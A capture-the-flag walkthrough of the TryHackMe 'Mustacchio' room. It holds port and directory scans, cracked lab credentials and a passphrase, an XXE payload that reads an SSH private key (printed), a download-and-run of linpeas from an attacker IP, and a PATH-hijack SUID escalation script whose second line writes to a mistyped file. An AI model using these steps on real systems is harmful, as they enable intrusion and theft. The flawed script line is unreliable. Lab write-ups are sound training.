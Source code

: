 https://tryhackme.com/room/mustacchio
>IP:10.10.17.215

# RECON
```
nmap -p- -sS 10.10.17.215 -vv   
sudo nmap 10.10.17.215 -sC -sV -p22,80,8765 
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-01 06:03 EDT
Nmap scan report for 10.10.17.215
Host is up (0.077s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:1b:0c:0f:fa:cf:05:be:4c:c0:7a:f1:f1:88:61:1c (RSA)
|   256 3c:fc:e8:a3:7e:03:9a:30:2c:77:e0:0a:1c:e4:52:e6 (ECDSA)
|_  256 9d:59:c6:c7:79:c5:54:c4:1d:aa:e4:d1:84:71:01:92 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

http://10.10.17.215/index.html
![Mustacchio](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Mustacchio/screenshots/2025-04-01 13-02-59.png)

```
ffuf -u http://10.10.17.215/FFUZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -ic -c  
images 
custom 
fonts
```

![Mustacchio](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Mustacchio/screenshots/2025-04-01 13-05-47.png)

## users.bak
```
admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b 
```
```
nth --text "1868e36a6d2b17d4c2745f1659433a54d4bc5f4b" 

SHA-1, HC: 100 JtR: raw-sha1 Summary: Used for checksums.See more
HMAC-SHA1 (key = $salt), HC: 160 JtR: hmac-sha1
Haval-128, JtR: haval-128-4
RIPEMD-128, JtR: ripemd-128
```

```
hashcat -h | grep "SHA"  
    100 | SHA1                                                       | Raw Hash
```
```
hashcat -m 100 '1868e36a6d2b17d4c2745f1659433a54d4bc5f4b' /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt
```

http://10.10.17.215:8765/
![Mustacchio](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Mustacchio/screenshots/2025-04-01 13-12-22.png)


```
admin:bulldog19  
```

# XXE
![Mustacchio](https://raw.githubusercontent.com/GooseGusevich/Tryhackme/refs/heads/main/Mustacchio/screenshots/2025-04-01 13-27-00.png)

ffuf -u http://10.10.17.215:8765/FFUZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt:FFUZ -ic -c  

/auth/dontforget.bak
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa"> ]>
<comment>
  <name>&xxe;</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>       
```

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,D137279D69A43E71BB7FCB87FC61D25E

jqDJP+blUr+xMlASYB9t4gFyMl9VugHQJAylGZE6J/b1nG57eGYOM8wdZvVMGrfN
bNJVZXj6VluZMr9uEX8Y4vC2bt2KCBiFg224B61z4XJoiWQ35G/bXs1ZGxXoNIMU
MZdJ7DH1k226qQMtm4q96MZKEQ5ZFa032SohtfDPsoim/7dNapEOujRmw+ruBE65
l2f9wZCfDaEZvxCSyQFDJjBXm07mqfSJ3d59dwhrG9duruu1/alUUvI/jM8bOS2D
Wfyf3nkYXWyD4SPCSTKcy4U9YW26LG7KMFLcWcG0D3l6l1DwyeUBZmc8UAuQFH7E
NsNswVykkr3gswl2BMTqGz1bw/1gOdCj3Byc1LJ6mRWXfD3HSmWcc/8bHfdvVSgQ
ul7A8ROlzvri7/WHlcIA1SfcrFaUj8vfXi53fip9gBbLf6syOo0zDJ4Vvw3ycOie
TH6b6mGFexRiSaE/u3r54vZzL0KHgXtapzb4gDl/yQJo3wqD1FfY7AC12eUc9NdC
rcvG8XcDg+oBQokDnGVSnGmmvmPxIsVTT3027ykzwei3WVlagMBCOO/ekoYeNWlX
bhl1qTtQ6uC1kHjyTHUKNZVB78eDSankoERLyfcda49k/exHZYTmmKKcdjNQ+KNk
4cpvlG9Qp5Fh7uFCDWohE/qELpRKZ4/k6HiA4FS13D59JlvLCKQ6IwOfIRnstYB8
7+YoMkPWHvKjmS/vMX+elcZcvh47KNdNl4kQx65BSTmrUSK8GgGnqIJu2/G1fBk+
T+gWceS51WrxIJuimmjwuFD3S2XZaVXJSdK7ivD3E8KfWjgMx0zXFu4McnCfAWki
ahYmead6WiWHtM98G/hQ6K6yPDO7GDh7BZuMgpND/LbS+vpBPRzXotClXH6Q99I7
LIuQCN5hCb8ZHFD06A+F2aZNpg0G7FsyTwTnACtZLZ61GdxhNi+3tjOVDGQkPVUs
pkh9gqv5+mdZ6LVEqQ31eW2zdtCUfUu4WSzr+AndHPa2lqt90P+wH2iSd4bMSsxg
laXPXdcVJxmwTs+Kl56fRomKD9YdPtD4Uvyr53Ch7CiiJNsFJg4lY2s7WiAlxx9o
vpJLGMtpzhg8AXJFVAtwaRAFPxn54y1FITXX6tivk62yDRjPsXfzwbMNsvGFgvQK
DZkaeK+bBjXrmuqD4EB9K540RuO6d7kiwKNnTVgTspWlVCebMfLIi76SKtxLVpnF
6aak2iJkMIQ9I0bukDOLXMOAoEamlKJT5g+wZCC5aUI6cZG0Mv0XKbSX2DTmhyUF
ckQU/dcZcx9UXoIFhx7DesqroBTR6fEBlqsn7OPlSFj0lAHHCgIsxPawmlvSm3bs
7bdofhlZBjXYdIlZgBAqdq5jBJU8GtFcGyph9cb3f+C3nkmeDZJGRJwxUYeUS9Of
1dVkfWUhH2x9apWRV8pJM/ByDd0kNWa/c//MrGM0+DKkHoAZKfDl3sC0gdRB7kUQ
+Z87nFImxw95dxVvoZXZvoMSb7Ovf27AUhUeeU8ctWselKRmPw56+xhObBoAbRIn
7mxN/N5LlosTefJnlhdIhIDTDMsEwjACA+q686+bREd+drajgk6R9eKgSME7geVD
-----END RSA PRIVATE KEY-----
```

```
ssh2john key > key_hash.txt
```

```
john key_hash.txt --wordlist= /usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou.txt 
```

urieljames
# LPE
```
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
python3 -m http.server 80
```

```
wget http://10.23.87.78/linpeas.sh && chmod +x linpeas.sh  && ./linpeas.sh 
```

## SUID 
```
/home/joe/live_log
```

```
export PATH=/tmp:$PATH
```

```
echo '#!/bin/bash' > /tmp/tail
echo "chmod u+s /bin/bash" >> /tmp/tailcp
chmod +x /tmp/tail
```

```
./home/joe/live_log
/bin/bash -p
```